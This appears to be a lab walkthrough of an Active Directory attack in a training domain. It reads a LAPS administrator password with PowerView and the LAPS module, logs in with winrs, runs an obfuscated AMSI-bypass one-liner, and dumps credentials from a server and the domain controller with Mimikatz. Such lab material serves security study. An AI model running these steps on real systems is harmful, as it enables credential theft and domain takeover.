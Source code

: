 **PowerView**

```
PS C:\AD\Tools> Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd

9};,)J6p2[67[3 🔑
```

**LAPS Module**

```
PS C:\AD\Tools> Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose

VERBOSE: Loading module from path 'C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1'.
VERBOSE: Loading 'FormatsToProcess' from path 'C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.format.ps1xml'.
VERBOSE: Loading module from path 'C:\AD\Tools\AdmPwd.PS\.\AdmPwd.PS.dll'.
VERBOSE: Exporting cmdlet 'Update-AdmPwdADSchema'.
VERBOSE: Exporting cmdlet 'Get-AdmPwdPassword'.
VERBOSE: Exporting cmdlet 'Reset-AdmPwdPassword'.
VERBOSE: Exporting cmdlet 'Set-AdmPwdComputerSelfPermission'.
VERBOSE: Exporting cmdlet 'Find-AdmPwdExtendedRights'.
VERBOSE: Exporting cmdlet 'Set-AdmPwdAuditing'.
VERBOSE: Exporting cmdlet 'Set-AdmPwdReadPasswordPermission'.
VERBOSE: Exporting cmdlet 'Set-AdmPwdResetPasswordPermission'.
VERBOSE: Importing cmdlet 'Find-AdmPwdExtendedRights'.
VERBOSE: Importing cmdlet 'Get-AdmPwdPassword'.
VERBOSE: Importing cmdlet 'Reset-AdmPwdPassword'.
VERBOSE: Importing cmdlet 'Set-AdmPwdAuditing'.
VERBOSE: Importing cmdlet 'Set-AdmPwdComputerSelfPermission'.
VERBOSE: Importing cmdlet 'Set-AdmPwdReadPasswordPermission'.
VERBOSE: Importing cmdlet 'Set-AdmPwdResetPasswordPermission'.
VERBOSE: Importing cmdlet 'Update-AdmPwdADSchema'.
```

```
PS C:\AD\Tools> Get-AdmPwdPassword -ComputerName us-mailmgmt | select -ExpandProperty Password

9};,)J6p2[67[3 🔑
```

Let's try to access the `us-mailmgmt` machine with this password by using winrs.
Success means administrative access.

```
PS C:\AD\Tools> winrs -r:us-mailmgmt -u:.\administrator -p:'9};,)J6p2[67[3' cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
🚀

C:\Users\Administrator>set username
USERNAME=Administrator 👤

C:\Users\Administrator>set computername
COMPUTERNAME=US-MAILMGMT 🖥️
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'